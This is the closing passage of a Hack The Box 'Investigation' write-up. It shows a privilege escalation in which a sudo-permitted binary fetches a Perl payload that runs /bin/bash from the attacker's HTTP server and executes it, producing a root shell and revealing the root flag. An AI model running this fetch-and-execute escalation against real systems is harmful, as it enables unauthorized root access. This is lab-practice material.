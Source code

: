 So basically we can run perl system command 

So time to make our payload xD

In my cwd i'll make a file which would call /bin/bash

```
                                                                                                                                                                                                                   
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Investigation]
└─$ echo 'exec "/bin/bash";' > bash.pl
                                                                                                                                                                                                                   
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Investigation]
└─$ pyws -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now on the target i run the binary with the required parameters

```
smorton@investigation:~$ sudo binary http://10.10.16.54/bash.pl lDnxUysaQn
Running... 
root@investigation:/home/smorton# cd /root
root@investigation:~# ls -al
total 28
drwx------  4 root root 4096 Jan 22 19:10 .
drwxr-xr-x 18 root root 4096 Jan  9 16:53 ..
lrwxrwxrwx  1 root root    9 Aug 30 06:00 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Sep  2 20:54 .cache
drwxr-xr-x  3 root root 4096 Jan  6 09:31 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Jan 22 19:10 root.txt
root@investigation:~# cat root.txt 
b375b645f61c74d36039066c38f9ac0f
root@investigation:~# 
```

And we're done 

<br> <br>
[Back To Home](../../index.md)
<br>

